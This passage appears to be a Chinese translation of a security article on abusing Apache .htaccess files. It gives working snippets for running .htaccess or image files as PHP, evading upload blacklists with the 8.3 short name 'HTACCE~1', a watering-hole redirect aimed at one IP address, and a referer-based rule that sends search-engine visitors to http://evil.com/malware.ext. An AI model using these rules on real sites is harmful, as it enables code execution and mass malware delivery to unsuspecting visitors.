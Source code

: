 一旦攻击者重写了网站的原始htaccess文件并禁用了默认的拒绝规则，他们就可以通过将以下行添加到自定义的htaccess文件来执行远程命令：
`AddType application/x-httpd-php .htaccess `   

这将使服务器将htaccess文件视为PHP脚本，并与上述方法配合，以覆盖易受攻击的服务器原始htaccess文件，然后攻击者可以导航到存储htaccess文件的URL，以便执行 PHP代码。 攻击者制作的有效载荷将以htaccess文件中的注释形式出现，例如：  
```
AddType application/x-httpd-php .htaccess
# <?php echo "get pwned"; ?>
```
当然，这不仅限于PHP。你可以使用相同的方法来生成一个JSP脚本文件或类似的东西（全部取决于在服务器上运行的是哪种技术） - 为了做到这一点，我们需要改变AddType的值以符合所希望的代码执行。  
 
如果出于某种原因，即使禁用拒绝规则（例如，由于HTTP守护进程或CMS特定配置文件的外部配置），也不允许访问htaccess，攻击者可以改用AddType设置一个更“无辜的”文件，如将一个JPG视为一个PHP文件。然后，可以在JPG图像中包含一些恶意PHP代码，上传图像，并导航到图像存储路径，以便执行代码。  
 
如果攻击者利用Windows 8.3（SFN）文件名惯例的过时系统，则有可能规避基于黑名单的过滤器，该过滤器正在停止上传名为“htaccess”的文件。 .htaccess的简称可以用在这种情况下。一个攻击者可以上传一个名为“HTACCE〜1”的文件，如果8.3文件名惯例正在使用，那么这将等于上传一个名为“.htaccess”的文件 - 假设这些文件名惯例正在使用中（现在不太常见），这可以用于绕过基于签名的过滤器和用于文件上传功能的黑名单。  


## 水坑攻击以及利用恶意软件感染大量用户

如果攻击者设法攻击一个网站并且具有有限的（非根）访问权限，但是仍然能够对htaccess进行修改，那么这可以使用方法进行渗透利用。我将要介绍的第一个例子是攻击者可以修改htaccess来作为一个实际的水坑攻击。 
 
如果攻击者有一个他们想要的攻击的特定目标，他们知道该 用户的IP地址，以及用户经常浏览的网站，如果攻击者有能力编辑或覆盖htaccess文件的受害者经常访问的网站，就可以发动水坑攻击（通过部分访问或通过任意文件上传的方式覆盖当前htaccess文件的能力）。  

让我们假设攻击者有一个目标，并知道他们的IP地址是151.121.2.69，他们经常访问一个名为example.com的网站 - 如果攻击者发现一个方法来覆盖example.com的htaccess文件，那么他们可以像这样设置一个htaccess规则：  
```
RewriteCond %{REMOTE_ADDR} ^151\.\121\.2\.69$
RewriteCond %{REQUEST_URI} !/GetHacked.php
RewriteRule .*\.(htm|html|php)$ /GetHacked.php [R,L]
```
通过上面的例子，任何访问example.com的普通用户都可以正常浏览网站。如果受害者访问example.com，他们将被重定向到GetHacked.php（当然实际上比这个更加隐蔽，这里只是一个例子）。  

一般来说，受害者将被重定向到的页面看起来与他们打算在设计方面连接到的站点完全相同（并且将具有相同的域名），但是他们将被重定向到网站上单独的，独特的页面，然后这个网站会提供恶意软件，hook用户的浏览器，或者通过零日漏洞利用他们的浏览器。  

如果一切顺利，受害者完全不会意识到任何异常事情的发生。他们将像往常一样继续浏览网站，不知道他们已经成为水坑攻击的受害者。如果计划得当，这可能会导致一个高度复杂的，有针对性的对某人的袭击，并且用户完全不知道发生了什么事情。  
 
虽然我刚刚描述的方法是针对特定受害者的有针对性的漏洞攻击，也可以通过一系列的重写规则，向网站的用户群提供恶意软件。这通常是通过检查引用者头部来查看用户来自哪个站点，并基于此将其重定向到恶意软件来实现的。  

通常，想要传播恶意软件的攻击者可以获取一个受欢迎的网站的权限，然后为htaccess创建一些重写规则，从而使任何来自流行搜索引擎访问该网站的人都被重定向到恶意软件或浏览器漏洞利用。这可以这样实现：  
```
RewriteEngine On
RewriteCond %{HTTP_REFERER} .*google.* [OR]
RewriteCond %{HTTP_REFERER} .*ask.* [OR]
RewriteCond %{HTTP_REFERER} .*bing.* [OR]
RewriteCond %{HTTP_REFERER} .*aol.* [OR]
RewriteCond %{HTTP_REFERER} .*yahoo.* [OR]
RewriteCond %{HTTP_REFERER} .*duckduckgo.* [OR]
RewriteCond %{HTTP_REFERER} .*yahoo.* [OR]
RewriteCond %{HTTP_REFERER} .*baidu.*
RewriteRule ^(.*)$ http://evil.com/malware.ext [R=301,L]
```
恶意黑客除了攻击网站并修改易受攻击的网站的htaccess文件以传播恶意软件或构建僵尸网络之外，此技术的另一个常见应用是将流量推送到支付流量的网站。如果一个黑客想侵入一些流行的网站并修改他们的htaccess文件来设置重定向规则，那么他们可以使得从搜索引擎到达的所有访问者都被重定向到黑客选择的站点。  

